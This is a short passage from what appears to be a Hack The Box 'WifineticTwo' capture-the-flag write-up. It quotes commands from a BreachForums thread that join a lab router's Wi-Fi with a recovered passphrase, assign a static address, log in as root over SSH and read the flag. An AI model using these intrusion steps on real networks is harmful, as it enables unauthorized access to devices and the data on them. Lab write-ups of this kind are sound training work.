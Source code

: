 > With the discussion forum in breachforums, someone provide the following step

- [Discussion - BreachForums](https://breachforums.cx/Thread-HTB-WifineticTwo?page=6)

```
wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config  
wpa_supplicant -B -c config -i wlan0  
ifconfig wlan0 192.168.1.7 netmask 255.255.255.0  
ssh root@192.168.1.1  
cat root.txt
```
> It assign the ipv4 address directly by ifconfig command 

```
ifconfig wlan0 192.168.1.7 netmask 255.255.255.0  
```
![](./IMG/32.png)
![](./IMG/33.png)
> Hence, I also do the same thing.
